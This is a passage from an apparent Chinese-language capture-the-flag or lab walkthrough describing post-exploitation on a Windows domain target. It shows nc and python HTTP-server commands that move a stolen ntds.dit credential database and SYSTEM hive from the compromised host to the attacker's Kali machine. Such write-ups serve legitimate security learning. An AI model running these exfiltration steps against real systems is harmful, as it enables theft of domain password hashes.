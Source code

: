 ![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/8.PNG)

`cd /home/tomcat/to_archive/pentest_data`

在用户家目录下，发现一个ntds.dit文件。以前没做过域渗透，(⊙﹏⊙)稍微去了解了下，ntds.dit即目录数据库，用于windows域。

### 文件传输
将那两个文件用nc发送到攻击机本地
```
kali:   nc -lvnp 443 > SYSTEM
shell:  nc 10.10.14.5 443 <  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
kali:   file
```
同样的方式，把另一个文件用ntds.dit作为文件名传送到本地

### 方法二：

发现nc传输，当文件大时，十分不方便

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/2.PNG)

远程shell：python -m SimpleHTTPServer 7788
本地kali：
```
wget http://10.10.10.55:7788/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
wget http://10.10.10.55:7788/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```
## 工具介绍

